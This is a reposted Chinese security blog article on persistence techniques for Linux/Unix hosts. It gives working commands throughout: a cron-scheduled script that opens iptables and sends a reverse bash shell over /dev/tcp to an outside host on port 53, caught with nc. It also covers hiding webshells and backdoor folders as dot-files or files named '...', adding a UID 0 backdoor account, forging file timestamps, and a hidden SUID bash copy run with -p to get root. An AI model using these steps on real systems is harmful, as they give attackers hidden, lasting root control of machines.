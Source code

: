 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/_DqXZjkD3fnR7HVAB9pKvw)

![](https://mmbiz.qpic.cn/mmbiz_gif/cW8GezRBf38VQw73hmM9EJNpnjLStNutQRj5Nk7BicuEvvAutUkD5fJXv7bqkHqVZUh1juSohKHzSibCPTXmUCzw/640?wx_fmt=gif)

**0x01  UnixBash 运控后门**

**简介：**

      利用 Unix/Linux 自带的 Bash 和 Croud 实现远控功能，保持反弹上线到公网服务器。

**方法如下：**

1、创建 / etc/xxx 脚本文件，利用该脚本进行反弹。以下脚本代表全自动反弹到 8.8.8.8 的 53 端口上。

```
nano /etc/xxx
#!/bin/bash
if netstat -ano|grep -v grep|grep "8.8.8.8" > /dev/null
then
echo "OK" > /dev/null
else
/sbin/iptables --policy INPUT ACCEPT
/sbin/iptables --policy OUTPUT ACCEPT
bash -i >& /dev/tcp/8.8.8.8/53 0>&1
fi
chmod +sx /etc/xxx（文件名称自拟）
```

2、修改 / etc/crontab，让其定时执行。  

```
nano /etc/crontab
```

--> 在 / etc/crontab 文件末添加下述代码可实现每一分钟执行一次。  

```
*/1****root/etc/xxx
```

3、重启 crontab 服务。（不同发行版本重启方式不同，请自行查询！）  

```
service cron reload
service cron start
```

4、在 8.8.8.8 的服务器上使用 NC 接收 Shell 即可。  

```
nc -vv -lp 53
```

**0x02  Linux/Unix 隐藏文件和文件夹**

      Linux/Unix 下想隐藏 Webshell 或者后门之类的，可以利用隐藏文件和文件夹。

**方法一：**

      可创建一个名字开头带 . 的 Webshell 或者文件夹，默认情况下是不会显示出来的，访问的时候加点访问即可。（查看方法：ls -a）

```
touch .webshell.php (创建名为.webshell.php的文件)
mkdir .backdoor/ (创建名称为.backdoor的文件夹)
```

**终极方法：**  

      如果是文件的话浏览器访问直接输 ... 就行，目录同理。  

```
touch ... (创建名字为...的文件)
mkdir ... (创建名字为...的文件夹)
```

**0x03  Linux/Unix 添加 UID 为 0 的用户**

**简介：**

      在 Unix 体系下，UID 为 0 就是 root 权限。所以渗透的时候可以添加一个 UID 为 0 的用户作为后门。

**利用方法：**

```
useradd -o -u 0 backdoor
```

**0x04  Linux/Unix 修改文件时间戳**

**简介：**

      Unix 下藏后门必须要修改时间，否则很容易被发现，直接利用 touch 就可以。比如参考 index.php 的时间，再赋给 webshell.php，就可以使两个文件的时间一致。

**利用方法：**

```
touch -r index.php webshell.php
```

      或者直接将时间戳改为某年某月某日。如下 2014 年 01 月 02 日。  

**系统环境：**  

```
dawg:~# uname -a
Linux dawg 2.4.20-1-386 #3 Sat Mar 22 12:11:40 EST 2003 i686 GNU/Linux
```

**0x05  SUID shell**

**利用方法：**

      首先，先切换为 root 用户，并执行以下命令：

```
dawg:~# cp /bin/bash /.woot
dawg:~# chmod 4755 /.woot
dawg:~# ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 /.woot
```

      当然，你也可以起其他更具隐藏性的名字，我想猥琐并机智的你，肯定能想出很多好的名字。文件前面的 . 也不是必要的，只是为了隐藏文件（在文件名的最前面加上 “.”，就可以在任意文件目录下进行隐藏）。  

      现在，作为一个普通用户，我们来启用这个后门。  

```
fw@dawg:~$ id
uid=1000(fw) gid=1000(fw) groups=1000(fw)
fw@dawg:~$ /.woot.woot-2.05b$ id
uid=1000(fw) gid=1000(fw) groups=1000(fw).woot-2.05b$
```

      为什么不行呢？  

      因为 bash2 针对 suid 有一些护卫的措施，但这也不是不可破的：  

```
.woot-2.05b$ /.woot -p
.woot-2.05b# id
uid=1000(fw) gid=1000(fw) euid=1000(fw) groups=1000(fw)
```

      使用 - p 参数来获取一个 root shell。（其中 euid 的意思是 effective user id）  

      这里要特别注意的是，作为一个普通用户执行这个 SUID shell 时，一定要使用全路径。

**小知识：**

      如何查找那些具有 SUID 的文件：  

```
dawg:~# find /-perm +4000 -ls
```

      这时就会返回具有 SUID 位的文件啦~

![](https://mmbiz.qpic.cn/mmbiz_png/c6gqmhWiafypu8xMx0VGdz69F9YhVguXuShCP9urC7Rs8gp9VxicGvOibPfzGslmPiaWM2rg1qHvnibibcEsCicnIoZmg/640?wx_fmt=png) 

往期推荐

  

  

[3601 病毒分析](http://mp.weixin.qq.com/s?__biz=MzA5MDE2ODI0NQ==&mid=2247485560&idx=1&sn=048f0b6bb05dfb6642c41c9e2d8d6198&chksm=900e86a2a7790fb42ddea5b4548fb5c51d3f92a061307fc746c688eb2d98da3263dc16135e92&scene=21#wechat_redirect)

  

[网安笔记 | 非法网站渗透](http://mp.weixin.qq.com/s?__biz=MzA5MDE2ODI0NQ==&mid=2247485560&idx=2&sn=0a6d85a1c70a9d8902d99c90a1d7fd61&chksm=900e86a2a7790fb4dd6d7a75474be7beced84245e7f3c0b39579955077f7e8d4ad2355552d02&scene=21#wechat_redirect)

  

[PhpWeb CMS 前台 Getshell](http://mp.weixin.qq.com/s?__biz=MzA5MDE2ODI0NQ==&mid=2247485421&idx=1&sn=63eb781ffcdc36e4c7fcdfd9117cc54a&chksm=900e8937a7790021be02a0425255b7bbe1034dc39a34054b36290f774b91ede04d4a3a89d3ae&scene=21#wechat_redirect)

  

[WarmUp | 滑稽的代码审计](http://mp.weixin.qq.com/s?__biz=MzA5MDE2ODI0NQ==&mid=2247485421&idx=2&sn=641ca30e3f944181a9a5931189b06c56&chksm=900e8937a7790021394b0aaf0f9272cc0b191ea2a76ed5c3a72beb4a0e649f357ead8d31a3bf&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/6aVaON9Kibf5VNYt0ibwA6m1BvnXYFSnVn8icyic45TuQk1ib633LibS0HKWYQ6qz0yBLo894U0T52O2YEtyP3iaB7P1w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/5mCYKkWvZAh6zJBCiaXHKIpUycpKkr5ZVic0MtG1eibric9weY8PtSB23R7OKFb1AlGG0kbaKXyYhOiao6D8UK9KrqA/640?wx_fmt=jpeg)

长按二维码

关注我们吧

![](https://mmbiz.qpic.cn/mmbiz_png/US10Gcd0tQENdoltlmlstW79v8ibDFelROfzwpmcZ6r2ZINfyXOc24AVAON65c7shCuT1l1bz7ziavNMZSApBnhg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/NuIcic2jibgNJzwoZYCo6ThfOoeX410mwuDxnOnv5za18VZJ7ib30pic2NSNnicziaONicvs1C9yMDr6zV40ADD9yPP7Q/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/5mCYKkWvZAiaFXU9Shv9qyNibMjicOgIyic9vU88IQAMqhtuaUAN04xHhnicbT112sfdFe9mIG187l80j0onqHKdobQ/640?wx_fmt=png)

注：本文转载自 SecPulse 安全脉搏，可点击左下角阅读原文查看详情！